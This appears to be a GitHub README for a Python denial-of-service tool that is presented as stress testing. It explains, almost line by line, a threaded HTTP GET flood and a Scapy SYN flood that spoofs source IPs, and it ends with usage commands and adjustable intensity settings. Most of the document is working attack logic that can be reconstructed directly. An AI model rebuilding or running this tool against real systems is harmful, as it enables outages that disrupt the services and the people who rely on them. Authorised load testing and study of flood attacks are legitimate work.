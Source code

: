 # dos_tool
Stress-testing python tool

Overview

This Python script implements a simple Denial of Service (DoS) attack tool that supports two types of attacks: HTTP Flood and SYN Flood. The tool is designed to simulate network stress testing by sending multiple HTTP requests or TCP SYN packets to a target server. It uses the socket, threading, time, argparse, scapy, and random libraries to perform these tasks.

import socket: 
This imports Python's built-in socket module, which allows creating network connections (like TCP sockets) to send data over the internet. It's used for establishing connections in the HTTP flood.

import threading: 
Imports the threading module for creating multiple threads (parallel execution paths). This enables sending many requests simultaneously in the HTTP flood, simulating a "flood."

import time: 
Provides functions for handling time, like measuring durations or adding delays (e.g., time.time() for current timestamp, time.sleep() for pauses).

import argparse: 
Imports the argparse module to parse command-line arguments, making the script configurable via flags (e.g., specifying target, port).

from scapy.all import IP, TCP, send: Imports specific classes and functions from the scapy library (a third-party packet manipulation tool). IP and TCP are for crafting IP and TCP packets, and send is for transmitting them. Used only in the SYN flood.

import random: 
Provides functions for generating random numbers, used to spoof source IP addresses in the SYN flood.

Class: HTTPFlood
This class handles an HTTP flood attack, which overwhelms a web server by sending many HTTP GET requests rapidly. It simulates traffic from multiple sources using threads.
__init__(self, target, port, urls_file, duration, intensity)

Purpose: Constructor method that initializes the object with attack parameters.
Inputs:

target: A string representing the target's IP address or domain name (e.g., "example.com").
port: An integer for the target's port (typically 80 for HTTP or 443 for HTTPS).
urls_file: A string path to a file containing URLs to request (e.g., "urls.txt").
duration: An integer for how long the attack should run in seconds.
intensity: An integer for how many requests to send per second.


Outputs: None (initializes instance variables).
How it works:

self.target = target: Stores the target.
self.port = port: Stores the port.
self.urls = self.read_urls(urls_file): Calls the read_urls method to load URLs from the file and stores them in a list.
self.duration = duration: Stores the duration.
self.intensity = intensity: Stores the intensity.



read_urls(self, filename)

Purpose: Reads a file and returns a list of stripped URLs (ignoring empty lines).
Inputs:

filename: A string path to the file (e.g., "urls.txt").


Outputs: A list of strings (URLs), or an empty list if the file isn't found.
How it works:

try:: Starts a try-except block to handle errors.
with open(filename, 'r') as f:: Opens the file in read mode ('r') using a context manager (automatically closes the file).
return [line.strip() for line in f if line.strip()]: Uses a list comprehension to read each line, strip whitespace (e.g., remove newlines), and include only non-empty lines.
except FileNotFoundError:: Catches if the file doesn't exist.
print(f"File {filename} not found."): Prints an error message.
return []: Returns an empty list.



send_request(self, url)

Purpose: Sends a single HTTP GET request to the target using the provided URL.
Inputs:

url: A string URL path (e.g., "/index.html").


Outputs: None (prints success or error).
How it works:

try:: Starts a try-except for error handling.
http_request = f"GET {url} HTTP/1.1\r\nHost: {self.target}\r\n\r\n": Constructs a basic HTTP request string using f-string formatting. \r\n are carriage return and newline for HTTP protocol. This requests the URL from the host.
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:: Creates a TCP socket (AF_INET for IPv4, SOCK_STREAM for TCP) in a context manager.
s.settimeout(10): Sets a 10-second timeout for the socket to prevent hanging.
s.connect((self.target, self.port)): Connects to the target IP/domain and port.
s.send(http_request.encode()): Encodes the request to bytes and sends it.
print(f"Request sent to {url}"): Prints success.
except Exception as e:: Catches any errors (e.g., connection failure).
print(f"Error sending request: {e}"): Prints the error.



start_attack(self)

Purpose: Launches the flood by creating threads to send requests repeatedly for the duration.
Inputs: None (uses instance variables).
Outputs: None (prints start/completion and manages threads).
How it works:

print("Starting HTTP flood attack..."): Announces start.
threads = []: Initializes an empty list to track threads.
start_time = time.time(): Records current time.
while time.time() - start_time < self.duration:: Loops until duration expires.

for _ in range(self.intensity):: Loops to create 'intensity' number of threads per second.

thread = threading.Thread(target=self.send_request, args=(self.urls[0],)): Creates a thread targeting send_request with the first URL (note: it always uses self.urls[0], ignoring others).
thread.start(): Starts the thread.
threads.append(thread): Adds to list.


time.sleep(1): Pauses 1 second between bursts.


for thread in threads:: After loop.

thread.join(): Waits for each thread to finish.


print("HTTP flood attack completed."): Announces end.



Class: SynFlood
This class handles a SYN flood attack, which exploits TCP handshakes by sending many SYN packets without completing them, exhausting server resources.
__init__(self, target, port, duration, pps)

Purpose: Initializes with attack parameters.
Inputs:

target: String IP/domain.
port: Integer port.
duration: Integer seconds.
pps: Integer packets per second (uses 'intensity' from args as pps).


Outputs: None.
How it works: Similar to HTTPFlood.__init__, stores values in self.target, etc.

start_attack(self)

Purpose: Sends SYN packets at the specified rate for the duration.
Inputs: None.
Outputs: None (prints packets sent and completion).
How it works:

print("Starting SYN flood attack..."): Announces start.
start_time = time.time(): Records time.
while time.time() - start_time < self.duration:: Loops for duration.

src_ip = f"192.168.1.{random.randint(1, 255)}": Generates a fake source IP (spoofing, always 192.168.1.x range).
packet = IP(src=src_ip, dst=self.target) / TCP(dport=self.port, flags="S"): Crafts a packet using Scapy: IP layer with source/destination, layered with TCP (destination port, SYN flag 'S' for handshake start).
send(packet, verbose=0): Sends the packet silently (verbose=0 suppresses output).
time.sleep(1/self.pps): Pauses to achieve packets-per-second rate (e.g., for 100 pps, sleep 0.01 seconds).
print(f"SYN packet sent from {src_ip} to {self.target}:{self.port}"): Logs each send.


print("SYN flood attack completed."): Announces end.



Function: main()

Purpose: Entry point for parsing args and starting the attack.
Inputs: None (reads from command line).
Outputs: None (launches attack or prints errors).
How it works:

parser = argparse.ArgumentParser(description='DoS/DDoS Attack Tool'): Creates parser with description.
parser.add_argument('attack_type', choices=['http', 'syn'], help='Type of attack (http or syn)'): Positional arg for type, restricted to choices.
parser.add_argument('-t', '--target', required=True, help='Target IP or domain'): Required flag for target.
parser.add_argument('-p', '--port', type=int, required=True, help='Target port'): Required int for port.
parser.add_argument('-d', '--duration', type=int, default=60, help='Attack duration in seconds'): Optional int, default 60.
parser.add_argument('-i', '--intensity', type=int, default=100, help='Intensity of attack (requests/threads per second)'): Optional int, default 100.
parser.add_argument('-u', '--urls', type=str, help='File containing URLs for HTTP flood'): Optional for HTTP URLs file.
args = parser.parse_args(): Parses command line into args object.
if args.attack_type == 'http':: Checks type.

if not args.urls:: Requires URLs file for HTTP.

print("For HTTP flood, please provide a URLs file."): Error if missing.
return: Exits function.


http_flood = HTTPFlood(args.target, args.port, args.urls, args.duration, args.intensity): Creates instance.
http_flood.start_attack(): Starts it.


elif args.attack_type == 'syn':: For SYN.

syn_flood = SynFlood(args.target, args.port, args.duration, args.intensity): Creates instance (uses intensity as pps).
syn_flood.start_attack(): Starts it.





 if __name__ == "__main__":

main(): Runs main() only if the script is executed directly (not imported as a module).


Usage:
HTTP Flood:

bash
sudo python dos_tool.py http -t 192.168.47.135 -p 80 -u urls.txt -d 30 -i 50
-t 192.168.47.135: Target IP or domain.

-p 80: Target port.

-u urls.txt: File containing URLs to flood.

-d 30: Attack duration in seconds.

-i 50: Number of concurrent requests per second.

SYN Flood:

bash
sudo python dos_tool.py syn -t 192.168.47.135 -p 80 -d 30 -i 100
-t 192.168.47.135: Target IP.

-p 80: Target port.

-d 30: Attack duration in seconds.

-i 100: Packets per second.
